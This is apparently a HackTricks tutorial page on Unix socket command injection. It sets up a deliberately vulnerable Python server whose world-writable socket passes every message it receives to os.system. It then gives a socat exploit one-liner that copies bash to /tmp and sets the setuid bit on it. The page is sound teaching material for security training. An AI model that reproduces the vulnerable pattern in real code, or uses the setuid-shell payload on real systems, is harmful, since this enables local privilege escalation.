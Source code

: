 # Socket Command Injection

{{#include ../../banners/hacktricks-training.md}}

## Socket binding example with Python

In the following example a **unix socket is created** (`/tmp/socket_test.s`) and everything **received** is going to be **executed** by `os.system`.I know that you aren't going to find this in the wild, but the goal of this example is to see how a code using unix sockets looks like, and how to manage the input in the worst case possible.

```python:s.py
import socket
import os, os.path
import time
from collections import deque

if os.path.exists("/tmp/socket_test.s"):
  os.remove("/tmp/socket_test.s")

server = socket.socket(socket.AF_UNIX, socket.SOCK_STREAM)
server.bind("/tmp/socket_test.s")
os.system("chmod o+w /tmp/socket_test.s")
while True:
  server.listen(1)
  conn, addr = server.accept()
  datagram = conn.recv(1024)
  if datagram:
    print(datagram)
    os.system(datagram)
    conn.close()
```

**Execute** the code using python: `python s.py` and **check how the socket is listening**:

```python
netstat -a -p --unix | grep "socket_test"
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
unix  2      [ ACC ]     STREAM     LISTENING     901181   132748/python        /tmp/socket_test.s
```

**Exploit**

```python
echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash; chmod +x /tmp/bash;" | socat - UNIX-CLIENT:/tmp/socket_test.s
```

{{#include ../../banners/hacktricks-training.md}}



